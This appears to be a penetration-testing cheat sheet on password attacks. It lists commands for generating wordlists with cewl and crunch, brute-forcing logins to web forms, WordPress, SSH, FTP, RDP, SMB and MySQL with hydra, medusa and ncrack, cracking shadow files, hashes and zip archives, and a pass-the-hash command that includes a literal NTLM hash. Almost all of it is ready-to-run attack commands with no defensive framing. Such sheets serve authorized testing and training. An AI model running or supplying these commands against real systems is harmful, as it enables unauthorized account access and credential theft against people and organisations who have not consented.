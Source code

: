 # Password Attacks

- [Lists](#lists)
- [Guessing](#guessing)
- [Cracking](#cracking)


## Lists

Generate Password List
     cd /opt/wordhound && python Main.py wordhound
     cewl -d 2 -m 5 -w words.txt $site 2>/dev/null
Then MANGLE with John
     john --wordlist=words.txt --rules --stdout > mangled_words.txt

Spiderfoot
     python ./sf.py && firefox hxxp://127.0.0.1:5001/

Wordlist of passwords 6 characters long containing specific characters
     crunch 6 6 0123456789ABCDEF -o list.txt

Wordlist using pre-defined character sets
     crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt

Wordlist with pattern such as abc$%#123
     crunch 8 8 -t ,@@^^%%% |more

## Guessing

Password Guessing
     medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 20 http
     medusa -H hosts -C usersandhashes -M smbnt -m PASS:HASH | grep "Access Allowed" smb
     wfuzz -c -z file,/root/wordlist.txt -hs Invalid -hs incorrect -d "log=FUZZ&pwd=aaaa" http://$ip/path.php
     ncrack -v -f --user admin -P passwords rdp://$ip,CL=1 rdp
     patator mysql_login user=root password=FILE0 0=/root/passes.txt host=$ip -x ignore:fgrep='denied' mysql dictionary attack

Guess an HTTP form with a field named "key"
     hydra $ip http-form-post "/kzMb5nVYJw/:key=^PASS^:invalid key" -l "" -P passwords.txt -t 10 -w 30 -o hydra-http.txt
     hydra $ip http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l "admin" -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http.txt

     hydra -s 22 -l demonslayer -P /usr/share/wordlists/rockyou.txt 10.0.2.5 ssh
     ncrack -p 22 --user root -P passwords -T5 $ip ssh

     hydra -l elly -e nsr 92.168.1.135 ftp
     ncrack -u root -P passwords -T 5 $ip -p 21 ftp
     hydra -l admin -P password-file.txt -v $ip ftp ftp
     hydra -L users -P passwords -f -u $ip -s 21 ftp ftp

## Cracking

Crack Shadowfile
     unshadow passwd shadow > unshadow.txt
     john -–single unshadow.txt
     john --show unshadow.txt

Crack Hash
     firefox crackstation.net &
     firefox onlinehashcrack.com &
     firefox hashkiller.co.uk &
     john jhashes.txt -wordlist=/usr/share/wordlists/rockyou.txt

     pth-winexe -U WIN-PAQJG3GR43J/Administrator%aad3b435b51404eeaad3b435b51404ee:54d99af9cebee2444c1684ac33dadb1e //192.168.38.161 cmd

Crack Zip File
     fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u Whistler.zip
     fcrackzip -D -u -p bfforzip.txt ~/Downloads/t0msp4ssw0rdz.zip